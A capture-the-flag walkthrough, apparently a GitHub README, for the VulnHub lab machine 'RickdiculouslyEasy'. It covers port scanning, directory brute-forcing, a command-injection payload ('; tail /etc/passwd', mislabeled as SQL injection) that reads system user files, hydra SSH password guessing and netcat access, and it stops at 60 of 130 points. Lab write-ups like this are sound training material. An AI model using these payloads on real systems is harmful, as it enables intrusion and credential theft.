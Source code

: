 # RickdiculouslyEasy: 1

#### Download the machine from vulnhub or go for the [link](https://drive.google.com/open?id=0BzB6wBgc606JNmNNdU9waGNGTmM)
![rick wall](https://user-images.githubusercontent.com/112984045/202390970-89a77c0e-1a02-437a-a4e1-1fc2ace6dbac.png)
<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### `It is recommended to keep both attack and 'RickdiculouslyEasy' machines on either briged or NAT network`
### ` After a successful setup go for the commands :`<br>
* #### Remember that the total points to be attained = 130 <br>


## ENUMERATION :

```bash
netdiscover -i < interface >
```
`Example command : netdiscover -i eth0`<br>
![rick netdiscover](https://user-images.githubusercontent.com/112984045/202392016-4d8bd306-0c80-4ad0-bdc2-585eb725ad86.png)
<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 < IP >
```
![rick nmap](https://user-images.githubusercontent.com/112984045/202393571-4f039d87-bbd9-470b-8f55-9bddb3a3453a.png)<br>
  ~ we can add -v argument for more verbose output.<br>
 
* I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![rick portscanner](https://user-images.githubusercontent.com/112984045/202403637-cc4fc199-850f-4bd8-a790-80e305916fbc.png)<br>
* Thanks to my tool, It had found a flag at scanning itself before the nmap scan was done<br>

~ I prefer this tool because of its speed as you can see it just took 37 seconds for scanning 65535 ports.<br>Even still some improvements are to be done
 <br>
 
 ## ` points : 10`
 <br>
 
 * Try one more nmap scan with command :
 ```bash
 nmap -sV -sC  -T4 -vv -Pn -p- <br>
 ```
 
  ### ANALYSING ALL THE SCANS :
 * number of OPEN PORTS : 7
 * PORT NUMBERS : 21,22,80,9090,13337,22222,60000
 * OPERATING SYSTEM : UNIX, Linux
 * service running on PORT 21    : ftp
 * service running on PORT 22    : ssh
 * service running on PORT 80    :  Apache/2.4.27 (Fedora)
 * service running on PORT 9090  : Apache/2.4.27 (Fedora)
 * service running on PORT 13337 : unknown
 * service running on PORT 22222 : SSH-2.0-OpenSSH_7.5
 * service running on PORT 60000 : unknown
<br>
  
 * As the port 21 is open lets go for it :
 ```bash
 ftp <IP>
 ```
 ![rick ftp](https://user-images.githubusercontent.com/112984045/202398047-50f86fe1-e337-4b4d-97bd-a9ae834ad33b.png)<br>
 * Terminate the ftp server and look for FLAG.txt
 ```bash
 cat FLAG.txt
 ```
 ![rick 1 ftpflag](https://user-images.githubusercontent.com/112984045/202398637-5237a77d-5bf5-43e0-9071-b7ac2e1ed1b8.png)
<br>

## ` POINTS : 20`
<br>

* As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 <br>
 
 * Nothing to do with the home page<br>
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirb/big.txt -t 50
```
![rick gobu big 80](https://user-images.githubusercontent.com/112984045/202400675-bfa7167f-cd24-4e3f-8208-80a296c1708d.png)
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
``` 
![rick gobu med 80](https://user-images.githubusercontent.com/112984045/202400725-7a42cd58-9e28-4a25-8afa-d22b8798e880.png)<br>
<br>

```bash
http://< IP >/passwords/FLAG.txt
```
![rick 2 80 flag](https://user-images.githubusercontent.com/112984045/202401188-cb95b535-2ddb-4556-8ef0-823dc447d592.png)<br>

## `POINTS : 30`
<br>

* As the port 9090 is also open http, lets have a look at that to
```bash
https://< IP >:9090/
```
![rick 3 9090 flag](https://user-images.githubusercontent.com/112984045/202404793-8bc9c025-88b7-4b12-bfb4-c89380517807.png)<br>

## `POINTS : 40`
<br>

* Back to port 80 web
```bash
http://< IP >/robots.txt
```
![rick robots](https://user-images.githubusercontent.com/112984045/202860080-3ee53497-1941-42f5-becd-c10e76c98327.png)<br>

```bash
http://< IP >/cgi-bin/tracertool.cgi
```
![rick tracrroute](https://user-images.githubusercontent.com/112984045/202860217-1a4eb34c-297b-4ce8-9225-a510dcafb84c.png)<br>

` this web-page is vuln to sqli so try command :`
```bash
; tail /etc/passwd
```
or
```bash
http://< IP >/cgi-bin/tracertool.cgi?ip=%3B+tail+%2Fetc%2Fpasswd
```
![rick webshell user](https://user-images.githubusercontent.com/112984045/202860602-49f96a83-2d49-4029-b0fa-7bf93cff1508.png)
<br>

* Now we have 3 usernames ( make them as .txt file )
* Go back to /passwords directory
```bash
view-source:http://< IP >/passwords/passwords.html
```
![rick winter](https://user-images.githubusercontent.com/112984045/202860873-559a2586-8503-4cf3-a9c4-2dfd936d413f.png)
<br>

* Here we go the password
<br>

```bash
hydra -L < list of those 3 users > -p winter ssh://< IP >
```
![rick hydra 22222](https://user-images.githubusercontent.com/112984045/202861376-26a0c985-5836-416b-9d66-1a2189e70c49.png)

<br>

```bash
ssh Summer@< IP > -p 22222
```
![rick sshlogin 22222](https://user-images.githubusercontent.com/112984045/202861474-8e7b38f2-3253-4910-b829-0a9cf8a27106.png)

<br>

```bash
tail FLAG.txt
```
![rick 5ssh 22222](https://user-images.githubusercontent.com/112984045/202861564-a9bfb5a9-2ebd-4873-8936-baa214b7c8d5.png)<br>

## `POINTS : 50`
<br>

<br>

 * Lets go for port  60000<br>
 * As the scan states that it is an reverse shell<br>
 ```bash
 nc < IP > 60000
```
![rick 4 port60000](https://user-images.githubusercontent.com/112984045/202861911-6f8a806c-85b2-46a3-a775-49f0a0798e54.png)

<br>

## `POINTS : 60`





